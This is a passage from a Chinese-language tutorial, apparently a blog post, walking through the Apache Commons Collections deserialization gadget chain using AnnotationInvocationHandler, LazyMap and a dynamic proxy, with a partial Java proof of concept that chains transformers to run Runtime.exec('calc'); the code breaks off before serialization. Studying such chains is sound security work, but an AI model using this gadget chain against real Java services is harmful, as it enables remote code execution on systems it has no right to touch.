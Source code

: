 

先得到方法的名字和参数的类数组，再依次对方法名称的哈希值用`switch`判断，如果不是`equals,toString,hashCode和annotationType`的话，就会进入`default`：

```java
            default:
                Object var6 = this.memberValues.get(var4);
```



`memberValues`就是属性就是我们构造的被装饰后的`Map`，调用了`get()`方法，因此可以触发漏洞。

关键是反序列化怎么才能触发这个`invoke()`方法？注意到`AnnotationInvocationHandler`类实现了`InvocationHandler`类，看到这里我恍然大悟，怪不得和动态代理有关。实际上对动态代理熟一点的话，我看到这个类的名字也就该想到了。

因此大致的思路也就有了，用`AnnotationInvocationHandler`对我们构造的`Map`进行代理，这样在`readObject`中，只要调用了委托对象的任何方法，都会进入`AnnotationInvocationHandler#invoke `方法中，从而触发了漏洞。

构造一波`POC`：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections12 {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Class.forName("java.lang.Runtime")),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class,Class[].class},
                        new Object[]{"getRuntime",new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class,Object[].class},
                        new Object[]{null,new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{"calc"})
        } ;
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();

        Map outerMap = LazyMap.decorate(innerMap,chainedTransformer);

        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cons = clazz.getDeclaredConstructor(Class.class, Map.class);
        cons.setAccessible(true);
        InvocationHandler handler = (InvocationHandler)cons.newInstance(Retention.class, outerMap);

        Map proxyMap = (Map) Proxy.newProxyInstance(
                Map.class.getClassLoader(),
                new Class[]{Map.class},
                handler
        );
```